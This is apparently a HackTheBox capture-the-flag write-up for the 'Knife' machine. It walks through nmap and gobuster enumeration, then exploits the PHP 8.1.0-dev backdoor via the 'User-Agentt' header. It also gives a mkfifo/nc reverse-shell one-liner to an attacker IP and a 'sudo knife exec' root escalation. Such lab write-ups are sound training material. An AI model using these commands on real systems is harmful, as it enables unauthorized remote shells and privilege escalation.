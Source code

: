 ```yaml
---
title: "[HTB] Machine: Knife"
description: "[HTB] Machine: Knife"
date: 2023-08-05
menu:
  sidebar:
    name: "[HTB] Machine: Knife"
    identifier: htb-machine-Knife
    parent: htb-machines-linux
    weight: 10
hero: images/Knife.png
tags: ["HTB", "php-backdoor", "php-8.1.0-dev", "sudo", "knife", "gtfobins"]
---
```


# Knife
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.242
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-06 12:29 BST
Nmap scan report for 10.10.10.242 (10.10.10.242)
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.41 seconds

```
- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.242/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.242/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/08/06 12:31:56 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 5815]
```
- Web server 

[](./images/1.png)

## Foothold/User
- We server's backend
  - `X-Powered-By: PHP/8.1.0-dev`
  
[](./images/2.png)

- Google reveals `RCE` in `User-Agentt`

[](./images/3.png)

[](./images/4.png)

- Let's get reverse shell
  - `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.2 7777 >/tmp/f`

[](./images/5.png)

[](./images/6.png)


## Root
- `james` has sudo rights

[](./images/7.png)

- It's a [knife](https://docs.chef.io/workstation/knife/) cmd tool from [Chef](https://docs.chef.io/platform_overview/)
```
james@knife:/$ /usr/bin/knife -h
Chef Infra Client: 16.10.8

Docs: https://docs.chef.io/workstation/knife/
Patents: https://www.chef.io/patents

Usage: knife sub-command (options)
    -s, --server-url URL             Chef Infra Server URL.
        --chef-zero-host HOST        Host to start Chef Infra Zero on.
        --chef-zero-port PORT        Port (or port range) to start Chef Infra Zero on. Port ranges like 1000,1010 or 8889-9999 will try all given ports until one works.
    -k, --key KEY                    Chef Infra Server API client key.
        --[no-]color                 Use colored output, defaults to enabled.
    -c, --config CONFIG              The configuration file to use.
        --config-option OPTION=VALUE Override a single configuration option.
        --defaults                   Accept default values for all questions.
    -d, --disable-editing            Do not open EDITOR, just accept the data as is.
    -e, --editor EDITOR              Set the editor to use for interactive commands.
    -E, --environment ENVIRONMENT    Set the Chef Infra Client environment (except for in searches, where this will be flagrantly ignored).
        --[no-]fips                  Enable FIPS mode.
    -F, --format FORMAT              Which format to use for output. (valid options: 'summary', 'text', 'json', 'yaml', or 'pp')
        --[no-]listen                Whether a local mode (-z) server binds to a port.
    -z, --local-mode                 Point knife commands at local repository instead of Chef Infra Server.
    -u, --user USER                  Chef Infra Server API client username.
        --print-after                Show the data after a destructive operation.
        --profile PROFILE            The credentials profile to select.
    -V, --verbose                    More verbose output. Use twice (-VV) for additional verbosity and three times (-VVV) for maximum verbosity.
    -v, --version                    Show Chef Infra Client version.
    -y, --yes                        Say yes to all prompts for confirmation.
    -h, --help                       Show this help message.

Available subcommands: (for details, knife SUB-COMMAND --help)
```

- Check [GTFOBins](https://gtfobins.github.io/gtfobins/knife/)
  - `sudo knife exec -E 'exec "/bin/sh"'`


![](./images/8.png)